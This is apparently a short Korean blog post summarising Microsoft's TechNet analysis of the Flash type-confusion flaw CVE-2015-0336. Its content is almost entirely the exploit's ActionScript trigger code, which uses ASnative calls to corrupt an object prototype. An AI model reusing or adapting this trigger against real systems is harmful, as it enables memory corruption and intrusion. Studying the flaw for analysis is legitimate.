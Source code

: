 ```yaml
---
layout: post
title: "Understanding Type Confusion Vulnerabilities: CVE-2015-0336"
date: 2015-06-20 14:08:38 +0900
comments: true
categories: 
---
```


TechNet blogs 에 올라온 글을 정리해본다.

[Understanding type confusion vulnerabilities: CVE-2015-0336](http://blogs.technet.com/b/mmpc/archive/2015/06/18/understanding-type-confusion-vulnerabilities-cve-2015-0336.aspx)

```
class Trigger
{
    function Trigger()
    {
        var _loc2_ = _global.ASnative(2100,438181888);
        var _loc3_ = new Object();
        _loc2_.__proto__ = _loc3_;
        _global.ASnative(2100,200)(_loc3_);
        _global.ASnative(2100,8).apply(_loc2_,[1]);
        var _loc4_ = new LocalConnection();
        _loc4_.send("toAS3","trig_loaded");
    }
    static function main(mc)
    {
        Trigger.app = new Trigger();
    }
}
```
